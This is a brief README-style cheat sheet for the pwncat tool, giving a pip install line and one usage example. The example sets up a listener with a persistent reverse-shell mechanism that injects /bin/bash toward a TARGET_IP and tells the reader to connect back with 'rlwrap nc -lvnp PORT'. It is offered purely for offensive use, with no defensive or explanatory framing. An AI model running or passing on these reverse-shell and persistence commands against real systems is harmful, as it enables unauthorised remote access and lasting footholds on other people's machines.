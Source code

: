 # Pwncat

## Installation

#### 1) 

    pip install pwncat

## Usage:

#### 1) Sets up a listener while creating a persistent mechanism. Connect back with rlwrap nc -lvnp PORT. +NUM indicates how many more ports does the persistent mechanism work

    pwncat -l PORT --self-inject /bin/bash:TARGET_IP:PORT+NUM 

